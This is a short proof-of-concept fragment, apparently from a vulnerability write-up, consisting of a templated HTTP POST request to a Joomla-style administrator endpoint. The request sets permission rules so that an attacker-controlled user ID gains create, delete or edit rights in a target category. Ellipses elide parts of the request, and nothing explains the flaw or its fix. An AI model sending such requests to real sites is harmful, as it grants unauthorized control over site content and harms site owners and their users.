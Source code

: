POC
---

    POST administrator/index.php?option={Target Category}
    ...
    ...
    ...
    &jform[rules][core.{create|delete|edit}][AttackerID]=1